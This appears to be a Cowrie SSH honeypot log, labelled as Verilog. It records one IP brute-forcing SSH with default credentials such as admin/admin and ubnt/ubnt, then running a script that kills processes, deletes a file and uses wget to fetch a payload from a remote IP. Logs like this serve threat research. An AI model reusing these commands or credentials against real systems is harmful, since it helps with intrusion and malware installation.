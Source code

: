 ```verilog
2023-11-30T01:42:07.459906Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command basename
2023-11-30T01:42:07.460015Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: basename $dir
2023-11-30T01:42:07.460604Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: basename $dir
2023-11-30T01:42:07.461305Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command basename
2023-11-30T01:42:07.461404Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: basename $dir
2023-11-30T01:42:07.462372Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command for
2023-11-30T01:42:07.462472Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: for dir in /proc/ [ 0-9 ] *
2023-11-30T01:42:07.463164Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command deleted
2023-11-30T01:42:07.463262Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: deleted $dir/maps
2023-11-30T01:42:07.463781Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: echo Killing process with PID: 
2023-11-30T01:42:07.464210Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: kill -9 
2023-11-30T01:42:07.464521Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: done ;; rm -rf ah
2023-11-30T01:42:07.464818Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: wget http://94.156.68.152/ah
2023-11-30T01:42:57.566448Z [HoneyPotSSHTransport,46,204.76.203.13] Saved redir contents with SHA-256 199d11d0fd7043fe9206954ed8bc7b54d1912013a2a71bdf8bb007b71bb490c8 to var/lib/cowrie/downloads/199d11d0fd7043fe9206954ed8bc7b54d1912013a2a71bdf8bb007b71bb490c8
2023-11-30T01:42:57.567406Z [HoneyPotSSHTransport,46,204.76.203.13] Closing TTY Log: var/lib/cowrie/tty/35418a8d6dcb23a0ee6716fc1f7ae2255bd9f34584706ff5b8c6f8f42b98100f after 50 seconds
2023-11-30T01:42:57.643590Z [HoneyPotSSHTransport,46,204.76.203.13] avatar root logging out
2023-11-30T01:42:57.643806Z [HoneyPotSSHTransport,46,204.76.203.13] Connection lost after 51 seconds
2023-11-30T01:41:53.571325Z [HoneyPotSSHTransport,42,204.76.203.13] Remote SSH version: SSH-2.0-libssh2_1.10.0
2023-11-30T01:41:53.647609Z [HoneyPotSSHTransport,42,204.76.203.13] SSH client hassh fingerprint: 63ae64767f334c6a74647d80edb0291e
2023-11-30T01:41:54.047697Z [HoneyPotSSHTransport,42,204.76.203.13] first time for 204.76.203.13, need: 5
2023-11-30T01:41:54.047814Z [HoneyPotSSHTransport,42,204.76.203.13] login attempt: 1
2023-11-30T01:41:54.085794Z [HoneyPotSSHTransport,42,204.76.203.13] login attempt [b'admin'/b'admin'] failed
2023-11-30T01:41:55.166312Z [HoneyPotSSHTransport,42,204.76.203.13] Got remote error, code 11 reason: b'end'
2023-11-30T01:41:55.166817Z [HoneyPotSSHTransport,42,204.76.203.13] Connection lost after 1 seconds
2023-11-30T01:41:55.242107Z [HoneyPotSSHTransport,43,204.76.203.13] Remote SSH version: SSH-2.0-libssh2_1.10.0
2023-11-30T01:41:55.317557Z [HoneyPotSSHTransport,43,204.76.203.13] SSH client hassh fingerprint: 63ae64767f334c6a74647d80edb0291e
2023-11-30T01:41:55.711661Z [HoneyPotSSHTransport,43,204.76.203.13] login attempt: 2
2023-11-30T01:41:55.750345Z [HoneyPotSSHTransport,43,204.76.203.13] login attempt [b'admin'/b'password'] failed
2023-11-30T01:41:58.998769Z [HoneyPotSSHTransport,43,204.76.203.13] Got remote error, code 11 reason: b'end'
2023-11-30T01:41:58.999284Z [HoneyPotSSHTransport,43,204.76.203.13] Connection lost after 3 seconds
2023-11-30T01:41:59.075196Z [HoneyPotSSHTransport,44,204.76.203.13] Remote SSH version: SSH-2.0-libssh2_1.10.0
2023-11-30T01:42:02.031931Z [HoneyPotSSHTransport,44,204.76.203.13] SSH client hassh fingerprint: 63ae64767f334c6a74647d80edb0291e
2023-11-30T01:42:03.676742Z [HoneyPotSSHTransport,44,204.76.203.13] login attempt: 3
2023-11-30T01:42:03.714830Z [HoneyPotSSHTransport,44,204.76.203.13] login attempt [b'ubnt'/b'ubnt'] failed
2023-11-30T01:42:04.792951Z [HoneyPotSSHTransport,44,204.76.203.13] Got remote error, code 11 reason: b'end'
2023-11-30T01:42:04.793713Z [HoneyPotSSHTransport,44,204.76.203.13] Connection lost after 5 seconds
2023-11-30T01:42:04.868721Z [HoneyPotSSHTransport,45,204.76.203.13] Remote SSH version: SSH-2.0-libssh2_1.10.0
```